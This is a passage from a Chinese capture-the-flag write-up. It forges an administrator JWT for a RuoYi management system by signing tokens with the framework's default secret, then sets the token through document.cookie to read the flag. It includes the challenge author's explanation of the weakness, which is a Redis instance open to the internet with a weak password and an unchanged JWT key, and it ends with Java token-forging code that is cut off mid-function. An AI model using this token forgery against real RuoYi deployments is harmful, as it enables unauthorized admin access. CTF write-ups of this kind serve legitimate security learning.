 生成 Token 后，通过控制台执行脚本修改 cookei，然后再将页面地址修改到登录的首页 http://121.36.145.157/index：

    document.cookie = "Admin-Token=eyJh....";

获取首页显示的 `CTF flag:2435_ert3_Wee`，FLAG提交格式为 `flag{***}`，完成任务。其实出题战队未注意 FLAG 在 Webpack 打包时没有清理，所以通过静态脚本文件也可以找到，真是大意了！

    http://121.36.145.157/static/js/4.js

出题战队说明：

> 这道题并非我刻意制造，若依作为一款使用很广的管理系统，本身的认证逻辑就是这样的，我只是让 Redis 外网可以访问，而且设置了弱口令，其他没做修改，这在实战中还是可能遇到的，其实不只是若依，所有用了 JWT 的系统都可能用的这套逻辑，在实战中可以通过设置比较强的 JWT 秘钥解决这个问题，本题的问题是在于没有修改 JWT 的默认秘钥。我们是通过观察推理的方法解决了这道题，实际上是不严谨的，但是对于比赛时间有限不失为最好的方法。有兴趣的同学可以下载若依的源代码看看，就知道整个事情的来龙去脉了，若依这一套框架体系用到了目前比较主流的开发框架，值得研究。

### 👉 JWT Token 生成工具
- Open Source JWTs For Any Java App https://java.jsonwebtoken.io/

最后，工具代码展示：

```java
package jwtdemo;
import io.jsonwebtoken.Claims;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
import java.util.HashMap;
import java.util.Map;
import java.util.UUID;

public class App 
{
    static String LOGIN_USER_KEY = "login_user_key";
    static String secret = "abcdefghijklmnopqrstuvwxyz";

    public static void main( String[] args )
    {
        String uuid = getUUID();
        if(args.length>0) uuid = args[0];
        System.out.println( "UUID: " + uuid );

        System.out.println( "Hello JWT! " + args[0] );
        String token = genToken(uuid);
        System.out.println("login_tokens:" + uuid);
        System.out.println("Authorization: Bearer " + token);
        System.out.println("document.cookie = \"Admin-Token=" + token+"\"");
        String subject = parseToken(token);
        System.out.println("Claims: " + subject);
    }

    public static String genToken(String uuid)
    {
        Map<String, Object> claims = new HashMap<>();
        claims.put(LOGIN_USER_KEY, uuid);

        String token = Jwts.builder()
                .setClaims(claims)
                .signWith(SignatureAlgorithm.HS512, secret).compact();
        return token;
    }

    public static String parseToken(String token)
    {
        Claims claims = Jwts.parser()
                .setSigningKey(secret)
                .parseClaimsJws(token)
                .getBody();
        // String subject = claims.getSubject();
```
